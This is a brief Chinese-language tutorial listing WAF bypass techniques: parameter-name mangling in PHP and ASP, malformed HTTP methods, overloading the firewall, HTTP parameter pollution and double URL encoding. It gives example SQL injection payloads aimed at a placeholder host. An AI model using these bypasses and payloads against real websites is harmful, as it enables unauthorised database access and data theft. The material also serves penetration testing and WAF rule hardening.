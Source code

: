 ```php
1 使WAF跳过输入验证
2 使WAF的解释与后端不一致
3 使WAF未检测到对应的规则
```

1 跳过参数验证：  
PHP从参数名中删除空格或将其转换为下划线

```php
http://xxx.com/test.php?%20testid=select 1,2,3
```

本来应该是？后直接id=，这里才让了%20test参数

ASP删除不后面跟着两个十六进制数字的%字符

```php
http://xxx.com/test.aspx?%testid=select 1,2,3
```

通过这种方式绕过不拒绝未知参数的WAF。

2 格式错误的HTTP请求方式  
配置错误的web服务器可能接受格式错误的HTTP请求方式，可以绕过仅限定定GET和POST方式的WAF。

```php
将GET改为hello
```

3 加载waf的负载  
如果WAF性能负载过重的情况下，可能会跳过输入验证。通常可以发送打了的恶意请求。

对于嵌入式WAF或许更适用。

4 HTTP参数污染

发送多个同名的参数，如：

[http://xxx.com/test/?test=1&amp;test=2](http://xxx.com/test/?test=1&test=2)

```php
ASP.NET中，会处理成test=1,2
JSP中，会处理成test=1
PHP中，会处理成test=2
```

所以当payload为test=select 1,2,3 from tables的时候，可以将其改变为：

```php
test=select 1&select 2,3 from tables
```

5 双重URL编码  
WAF会将URL编码的字符规范化为ASCII文本，所以使用双重编码可能会导致绕过。

```c
s --> %73 -->%25%37%33
```

所以可以将payload修改成双重URL编码的格式

```javascript
1 union %25%37%33elect 1,2,3
```
